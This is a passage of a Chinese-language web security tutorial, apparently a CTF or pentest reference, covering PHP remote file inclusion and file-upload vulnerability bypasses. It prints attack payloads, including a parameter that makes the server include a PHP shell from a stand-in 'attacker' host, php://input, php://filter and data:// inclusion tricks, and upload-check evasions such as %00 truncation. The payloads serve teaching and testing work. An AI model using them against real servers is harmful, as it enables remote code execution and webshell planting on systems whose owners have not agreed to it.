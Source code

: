 构造变量 `basePath` 的值。

```
/?basePath=http://attacker/phpshell.txt?
```

最终的代码执行了

```php
require_once "http://attacker/phpshell.txt?/action/m_share.php";
```

问号后的部分被解释为 URL 的 querystring，这也是一种「截断」。

- 普通远程文件包含

  `?file=[http|https|ftp]://example.com/shell.txt`

  需要 `allow_url_fopen=On` 并且 `allow_url_include=On`。

- 利用 PHP 流 input

  `?file=php://input`

  需要 `allow_url_include=On`。

- 利用 PHP 流 filter

  `?file=php://filter/convert.base64-encode/resource=index.php`

  需要 `allow_url_include=On`。

- 利用 data URIs

  `?file=data://text/plain;base64,SSBsb3ZlIFBIUAo=`

  需要 `allow_url_include=On`。

- 利用 XSS 执行

  `?file=http://127.0.0.1/path/xss.php?xss=phpcode`

  需要 `allow_url_fopen=On`，`allow_url_include=On`并且防火墙或者白名单不允许访问外网时，先在同站点找一个 XSS 漏洞，包含这个页面，就可以注入恶意代码了。

## 文件上传

文件上传漏洞是指用户上传了一个可执行脚本文件，并通过此文件获得了执行服器端命令的能力。在大多数情况下，文件上传漏洞一般是指上传 web 脚本能够被服务器解析的问题，也就是所谓的 webshell 问题。完成这一攻击需要这样几个条件，一是上传的文件能够这 web 容器执行，其次用户能从 web 上访问这个文件，最后，如果上传的文件被安全检查、格式化、图片压缩等功能改变了内容，则可能导致攻击失败。

### 绕过上传检查

- 前端检查扩展名

  抓包绕过即可。

- `Content-Type` 检测文件类型

  抓包修改 `Content-Type` 类型，使其符合白名单规则。

- 服务端添加后缀

  尝试 %00 截断。
